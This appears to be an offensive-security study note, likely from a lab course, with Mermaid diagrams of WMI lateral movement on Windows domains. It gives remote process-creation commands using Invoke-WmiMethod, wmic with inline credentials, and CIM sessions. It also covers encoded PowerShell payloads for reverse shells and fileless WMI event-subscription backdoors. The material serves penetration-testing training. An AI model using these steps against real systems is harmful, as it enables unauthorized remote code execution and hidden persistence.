


# WMI Lateral Movement — Remote Execution via Windows Management Instrumentation

## Attack Path

```mermaid
flowchart TD
    START(["🔑 Local Admin or DA creds\non target machine"])

    subgraph wmi_exec["Path A: WMI Command Execution"]
        W1["WMI allows remote process creation\nvia DCOM/RPC (port 135 + dynamic)"]
        W2["Invoke-WMIMethod\n(PowerShell built-in)\nInvoke-WmiMethod -Class Win32_Process\n-Name Create\n-ComputerName dcorp-mgmt\n-ArgumentList 'cmd.exe /c whoami > C:\\out.txt'\n-Credential $cred"]
        W3["wmic (legacy CLI)\nwmic /node:dcorp-mgmt\n/user:DOMAIN\\admin\n/password:pass\nprocess call create 'cmd.exe /c whoami'"]
        W4["Invoke-Command equivalent\nbut uses DCOM not WS-MAN\nDifferent network footprint"]
        W5["✅ Remote code execution\nvia WMI"]
    end

    subgraph wmi_ps["Path B: WMI with PowerShell Remoting Payload"]
        PS1["Use WMI to launch PowerShell\nInvoke-WmiMethod ...\n-ArgumentList 'powershell -enc BASE64_CMD'"]
        PS2["Base64 encoded payload:\nInvoke-PowerShellTcpOneLine\nOR SafetyKatz download cradle\nOR any PS one-liner"]
        PS3["Reverse shell or beacon\ncallback to attacker"]
        PS4["✅ Interactive shell\non remote machine"]
    end

    subgraph wmi_cim["Path C: CIM (Modern WMI via WinRM)"]
        C1["CIM cmdlets use WS-MAN\n(same as PSRemoting port 5985)\nInvoke-CimMethod\n-ClassName Win32_Process\n-MethodName Create\n-CimSession $session\n-Arguments @{CommandLine='cmd.exe'}"]
        C2["New-CimSession\n$session = New-CimSession\n-ComputerName dcorp-mgmt\n-Credential $cred"]
        C3["More modern alternative to WMI\nSame result different transport"]
    end

    subgraph wmi_persist["Path D: WMI Persistence (Event Subscriptions)"]
        PER1["WMI event subscription\nTriggered on system events\nPersists across reboots"]
        PER2["Event Filter\n(what triggers it)\nSELECT * FROM __InstanceModificationEvent\nWHERE TargetInstance ISA 'Win32_LocalTime'\nAND TargetInstance.Seconds = 0\n(every minute)"]
        PER3["Event Consumer\n(what runs)\nCommandLineEventConsumer\npowershell.exe -enc PAYLOAD"]
        PER4["FilterToConsumerBinding\nLink filter to consumer"]
        PER5["✅ Persistent backdoor\nsurvives reboots\nTriggers on schedule/event"]
        PER6["RACE.ps1 or manual WMI\nInvoke-WMIEvent\n-ComputerName dcorp-dc"]
    end

    subgraph compare["WMI vs PSRemoting vs winrs"]
        CM1["winrs\n- HTTP/HTTPS (5985/5986)\n- Interactive shell\n- Requires WinRM enabled"]
        CM2["PSRemoting\n- HTTP/HTTPS (5985/5986)\n- PowerShell objects\n- Requires WinRM enabled"]
        CM3["WMI\n- DCOM/RPC (135+dynamic)\n- Process creation only\n- Always enabled by default\n- Harder to block"]
    end

    START --> W1 --> W2 & W3 --> W4 --> W5
    W5 --> PS1 --> PS2 --> PS3 --> PS4
    START --> C2 --> C1 --> C3
    START --> PER1 --> PER2 --> PER3 --> PER4 --> PER5
    PER5 --> PER6
    CM1 ~~~ CM2 ~~~ CM3

    style START fill:#4CAF50,color:#fff
    style W5 fill:#FF9800,color:#fff
    style PS4 fill:#FF9800,color:#fff
    style PER5 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((WMI Lateral Movement))
    WMI Execution
      Invoke-WmiMethod
        Win32_Process Create
        Credential parameter
        Remote computer
      wmic CLI
        /node: target
        process call create
        Legacy but universal
      Port
        DCOM/RPC 135
        Dynamic high ports
        Harder to block than WinRM
    CIM (Modern)
      New-CimSession
        WS-MAN transport
        Port 5985
      Invoke-CimMethod
        Win32_Process Create
        PowerShell 3.0+
    WMI Persistence
      Event Subscription
        __EventFilter
        __EventConsumer
        __FilterToConsumerBinding
      Trigger types
        Timer based
        Process creation
        Registry change
        System events
      Consumer types
        CommandLineEventConsumer
        ActiveScriptEventConsumer
      Stealth
        No files on disk
        Survives reboots
        Hard to detect/clean
    Comparison
      WMI
        Always enabled
        DCOM transport
        Process creation
      PSRemoting
        Needs WinRM
        WS-MAN transport
        Full PS session
      winrs
        Needs WinRM
        CMD shell
        Simple interactive
```
